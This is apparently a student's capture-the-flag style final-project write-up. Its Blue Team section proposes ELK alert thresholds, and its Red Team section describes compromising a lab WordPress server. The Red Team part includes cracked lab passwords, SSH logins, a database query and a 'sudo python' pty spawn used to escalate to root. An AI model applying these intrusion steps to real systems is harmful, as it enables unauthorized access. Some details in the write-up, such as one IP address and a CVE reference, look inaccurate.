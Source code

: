 # Final-Project
This is a private github repository meant to submit all of my findings and answers to the activities related to the Final Project.

# Blue Team: Summary of Operations

## Table of Contents
- Network Topology
- Description of Targets
- Monitoring the Targets
- Patterns of Traffic & Behavior
- Suggestions for Going Further

### Network Topology

The following machines were identified on the network:
- TARGET1
  - **Operating System**: Linux
  - **Purpose**: Runs Apache webserver 
  - **IP Address**:192.168.1.110
- TARGET2
  - **Operating System**: Linux
  - **Purpose**: Runs Apache webserver
  - **IP Address**:192.168.1.115
- Kali
  - **Operating System**: Linux
  - **Purpose**: Attacking Machine
  - **IP Address**: 192.168.1.90
- Capstone
  - **Operating System**: Linux
  - **Purpose**: Runs Apache webserver
  - **IP Address**: 192.168.1.105
- ELK
  - **Operating System**: Linux
  - **Purpose**: Runs Elasticsearch on the target machines.
  - **IP Address**: 19.168.1.100

### Description of Targets

The target of this attack was: `Target 1` 192.168.1.110.

Target 1 is an Apache web server and has SSH enabled, so ports 80 and 22 are possible ports of entry for attackers. As such, the following alerts have been implemented:
- **Excessive HTTP Errors**: WHEN count() GROUPED OVER top 5 'http.response.status_code' IS ABOVE 400 FOR THE LAST 5 minutes
- **HTTP Request Size Monitor**: WHEN sum() of http.request.bytes OVER all documents IS ABOVE 3500 FOR THE LAST 1 minute
- **CPU Usage Monitor**: WHEN max() OF system.process.cpu.total.pct OVER all documents IS ABOVE 0.5 FOR THE LAST 5 minutes

### Monitoring the Targets

Traffic to these services should be carefully monitored. To this end, we have implemented the alerts below:

#### Excessive HTTP Errors


Excessive HTTP Errors is implemented as follows:
  - **Metric**: http.response.status_code: Number of HTTP error codes (400 and up).
  - **Threshold**: Anything number of attempts that resulted in a 400 error code or above.
  - **Vulnerability Mitigated**: Brute Force Vulnerabilities could be mitigated with this alert. Any excessive amount of failed logins could clearly be brute force attempts into the network.
  - **Reliability**: This could cause some false negatives due to the error being set to trigger even one bad login attempt. However, it could prove valuable in monitoring overall failed attempts therefor making it difficult for successful brute force logins later on. I would rate this as medium reliability due to the sheer number of false alarms that would be created, however, it also does its job flawlessly in regards to alerting everytime a bad login is made, and in the process alerting for potential threat actor activity.

#### HTTP Request Size Monitor
HTTP Request Size Monitor is implemented as follows:
  - **Metric**: http.request.bytes: The amount of HTTP requests or rather the size of the requests in a set amount of time.
  - **Threshold**: Anything above 3500 events in the last 1 minute would trigger the alert
  - **Vulnerability Mitigated**: If there was a significant number of traffic that is directed towards a specific file on the webserver, that would alert the blue team of a potential malicious threat actor snooping around our file system trying to access confidential data.
  - **Reliability**: This could show a lot of false negatives if it just so happens to be a busy weekend and there is a lot of traffic flowing in and out of the webserver. However, on a regular basis, this would be reliable in that if there is an absurd amount of traffic being picked up by our web server at an unusual time especially, that tells me that something suspicious is likely occuring. I would rate this as highly reliable.

#### CPU Usage Monitor
CPU Usage Monitor is implemented as follows:
  - **Metric**: system.process.cpu.total.pct: CPU percentage use 
  - **Threshold**: Anything over .5% cpu being used on any file in the last 5 minutes.
  - **Vulnerability Mitigated**: This mitigates any issues with an excess amount of traffic or data flowing into a file which could prevent possible threat actors from tampering with files without getting caught.
  - **Reliability**: Normally I wouldn't expect file access and tampering to use up much CPU so I would rate this about medium reliability, this is because if something that is going to cause a significant amount of trouble is happening in our file system, I would expect higher CPU use than average. Only reason it isn't highly reliable is because sometimes hardware can effect how much CPU is being used, so if that hardware is outdated, it could potentially give you false negatives.



# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![Command Output](https://github.com/Zatoid/Final-Project/blob/main/screenshots/nmap_scan_against_target_vm.PNG)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 SSH
  - Port 80 HTTP


The following vulnerabilities were identified on each target:
- Target 1
  - Wordpress vulnerability in which we input a wordpress command against the web server IP and enumerated the user info as well as their credentials.
  - Weak account credentials. We were able to easily guess Michaels account password which was just his name. Steven's password only took a few minutes to crack with John the Ripper.
  - Privilege escalation using a python script. This one I was able to find a CVE code on which is CVE-2006-0151. It has no official severity rating on nist.gov, however I would rate this as very severe. Escalating to root is the holy grail of all cyber attacks and to be able to do that from a user level with a simple python script is concerning.

![vulnerability scan 1](https://github.com/Zatoid/Final-Project/blob/main/screenshots/vuln_scan_1.PNG)
![vulnerability scan 2](https://github.com/Zatoid/Final-Project/blob/main/screenshots/vuln_scan_2.PNG)


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - **Exploits**:
        - Brute forcing weak password credentials
        - Reading confidential files
      - **Commands**:
        - ssh michael@192.168.1.110 password: michael
        - cat /var/www/html/service.html

![flag 1](https://github.com/Zatoid/Final-Project/blob/main/screenshots/flag_1.PNG)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - **Exploits**
        - Brute forcing weak password credentials
        - Reading confidential file
      - **Commands**
        - ssh michael@192.168.1.110 password: michael
        - cat /var/www/flag2.txt

![flag 2](https://github.com/Zatoid/Final-Project/blob/main/screenshots/flag_2.PNG)

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - **Exploits**
        - Wordpress access due credentials being displayed in a publically accessible file.
      - **Commands**
        - Select * FROM wp_posts;

![flag 3](https://github.com/Zatoid/Final-Project/blob/main/screenshots/flag_3_and_4.PNG)

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - **Exploits**
        - Weak credentials
        - Wordpress access
      - **Commands**
        - ssh steven@192.168.1.110 password: pink84
        - sudo python -c 'import pty;pty.spawn("/bin/bash")'
        - cd /
        - find -iname *flag*
        - cat flag4.txt

![flag 4](https://github.com/Zatoid/Final-Project/blob/main/screenshots/flag_4.PNG)
